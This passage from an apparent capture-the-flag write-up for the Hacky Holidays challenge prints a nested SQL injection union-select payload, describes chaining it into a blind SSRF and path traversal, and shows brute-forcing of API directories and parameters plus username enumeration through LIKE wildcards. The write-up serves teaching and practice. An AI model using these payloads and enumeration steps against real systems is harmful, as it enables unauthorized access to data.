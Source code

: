 The plot thickens. The final payload is [`jdh34k' and 1=0 union all select "1' and 1=0 union all select 4,5,6;--;--",2,3;--`](https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=jdh34k'+and+1%3d0+union+all+select+"1'+and+1%3d0+union+all+select+4,5,6%3b--%3b--",2,3%3b--). That's a handful!

The photo that appears has the image set to `r3c0n_server_4fdk59/uploads/6` with a valid auth. I got this!

{F1139781}

Just for the fun of it, the query for getting the photos should be something like:

```sql
SELECT id, album_id, photo
FROM photos
WHERE album_id = '$result_album_id'
```

And a Path Traversal should be possible from this point with `../`. I already know I should be targeting `/api`. Only need to write a proper script to make the requests.

And I did. The script can be seen by downloading {F1139742}. I ran it once with the common wordlist, noticed a bunch of `Expected HTTP status 200, Received 404`, filtered these out, ran it again.

```bash
> python brute_dirs.py
/api/ping - Invalid content type detected
/api/user - Invalid content type detected
```

It seems that for status code 200, it will not show the result unless the Content-Type matches the one of an image. This is unfortunate, and my SSRF seems to be a Blind SSRF. But maybe status codes will suffice.

Let's try to find parameters, I guess. For `/api/ping`, I didn't find a thing. But for `/api/user`, the gods favored me. The parameters are taken from `burp-parameter-names.txt` wordlist from SecLists. Oh, and the script is a bit modified {F1139743}.

```bash
> python brute_params.py
/api/user?username=test - Expected HTTP status 200, Received: 204
/api/user?password=test - Expected HTTP status 200, Received: 204
```

I found the parameters to be **username** and **password**. And they do seem to work separately. My intuition tells me that if this endpoint was meant for internal usage, it should be working as a search. The first thing I tried is if the endpoint was accepting wildcards (`%` and `_`). More details about this type of query in [this article about SQL LIKE operator](https://www.w3schools.com/sql/sql_like.asp).

I tried some requests by hand (with the help of my script to sign it). *Note: The percent sign `%` is URL encoded in the table below as `%25`.*

| URL | Response |
| --- | -------- |
| /api/user?username=**test** | Expected HTTP status 200, Received: 204 |
| /api/user?username=**%25** | Invalid content type detected |
| /api/user?username=**a%25** | Expected HTTP status 200, Received: 204 |
| /api/user?username=**g%25** | Invalid content type detected |
| /api/user?username=**gr%25** | Invalid content type detected |
